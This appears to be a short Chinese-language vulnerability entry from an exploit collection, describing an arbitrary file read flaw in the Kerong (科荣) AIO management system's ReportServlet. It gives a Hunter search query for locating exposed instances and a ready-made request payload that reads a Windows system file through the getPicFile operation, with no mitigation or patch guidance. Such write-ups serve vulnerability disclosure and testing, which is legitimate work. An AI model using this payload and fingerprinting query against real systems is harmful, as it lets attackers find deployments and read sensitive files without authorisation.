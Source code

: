 # 科荣 AIO 管理系统 ReportServlet 存在任意文件读取漏洞

# 一、漏洞简介
科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统存在任意文件读取漏洞，攻击者可以读取敏感文件。

# 二、影响版本
+ 科荣 AIO 管理系统 

# 三、资产测绘
+ hunter`app.name="科荣 AIO"`
+ 特征

![1699631783798-97153184-155c-4762-9c58-b7c8334bc638.png](./img/XvBttgxBfIbQVhAw/1699631783798-97153184-155c-4762-9c58-b7c8334bc638-362329.png)

# 四、漏洞复现
```plain
/ReportServlet?operation=getPicFile&fileName=/DISKC/Windows/Win.ini
```

![1703605110708-aaf15e4f-0d1d-42ac-b61e-58ee7433ad4e.png](./img/XvBttgxBfIbQVhAw/1703605110708-aaf15e4f-0d1d-42ac-b61e-58ee7433ad4e-041534.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yci7gf7f8ezqhzft>